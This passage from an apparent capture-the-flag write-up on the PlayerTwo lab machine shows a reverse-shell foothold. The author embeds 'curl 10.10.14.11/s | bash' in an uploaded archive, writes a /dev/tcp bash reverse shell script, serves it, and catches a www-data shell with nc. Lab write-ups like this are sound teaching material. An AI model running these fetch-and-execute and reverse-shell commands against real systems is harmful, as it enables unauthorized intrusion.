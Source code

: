 I add it to a `.tar`, upload it, and watch `tcpdump`:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:58:48.055752 IP player2.htb > kali: ICMP echo request, id 46845, seq 1, length 64
    20:58:48.055770 IP kali > player2.htb: ICMP echo reply, id 46845, seq 1, length 64
    

#### Shell

Now that I know I can execute, I’ll use `curl` to have PlayerTwo reach out to
me for more code, and pipe that to shell. Here’s a payload that’s 25
characters long:

    
    
    root@kali# echo -n "curl 10.10.14.11/s | bash" | wc -c
    25
    

Update `Proto.bin`:

![image-20200122210251592](https://0xdfimages.gitlab.io/img/image-20200122210251592.png)

Repackage the `.tar`:

    
    
    root@kali# rm mod.tar; tar zcf mod.tar info.txt Protobs.bin version 
    

I’ll also create a simple reverse shell Bash script named `s`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.11/443 0>&1
    

Now start the Python webserver, and `nc` listener on 443. I’ll upload the
`.tar`. First, I see the hit on the webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.170 - - [22/Jan/2020 21:05:42] "GET /s HTTP/1.1" 200 -
    

Then a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.170.
    Ncat: Connection from 10.10.10.170:41146.
    bash: cannot set terminal process group (1152): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@player2:/var/www/product/protobs$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    